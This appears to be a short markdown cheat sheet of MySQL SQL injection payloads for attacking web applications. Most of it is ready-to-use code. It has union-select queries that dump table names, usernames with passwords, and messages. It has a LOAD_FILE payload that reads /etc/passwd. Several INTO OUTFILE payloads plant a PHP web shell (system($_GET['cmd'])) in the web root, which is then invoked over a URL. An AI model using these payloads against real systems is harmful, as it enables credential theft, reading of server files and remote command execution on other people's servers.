 # uploading File with Mysql

Basic:
```
<VALUE>' union select 1, @@version-- -
```
```
<VALUE>' union select 1, table_name FROM information_schema.tables-- -
```

> uploading:
```
<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#
```
> then go to http://example.com/shell.php?cmd=`<exec>`

> uploading file Says 'Hello from SQLI'
```
<VALUE>'union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from webapp.queue-- -
```
>then exec: `curl http://example/shell.php`
# List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
# read files
1: 
```
<VALUE>'union select 1,LOAD_FILE('/etc/passwd') from webapp.queue-- -
```
# command shell
```
<VALUE>'union select 1,'<?php system($_GET['cmd']) ?> INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
